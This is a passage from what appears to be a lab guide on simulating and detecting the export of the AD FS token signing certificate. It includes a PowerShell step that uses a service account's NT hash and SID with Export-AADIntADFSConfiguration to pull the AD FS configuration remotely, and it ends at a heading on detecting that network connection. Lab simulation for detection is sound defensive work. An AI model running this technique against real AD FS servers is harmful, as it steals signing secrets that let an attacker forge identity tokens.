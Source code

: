 ![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_06_get_adfs_service_account_nthash.png)

### Get AD FS Configuration Settings Remotely

6.  Finally, we can use all the previous information to export the AD FS configuration settings remotely. 

```PowerShell
$NTHash = "2d89f51237b6072aa1f45183c67cbb36" 
$ObjectSid = "S-1-5-21-2490359158-13971675-3780420524-1103" 
$ADFSServer = "ADFS01.simulandlabs.com" 
$settings = Export-AADIntADFSConfiguration -Hash $NTHash -SID $ObjectSid -Server $ADFSServer 
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_07_get_adfs_settings_remotely.png)

## Detect AD FS Remote Synchronization Network Connection
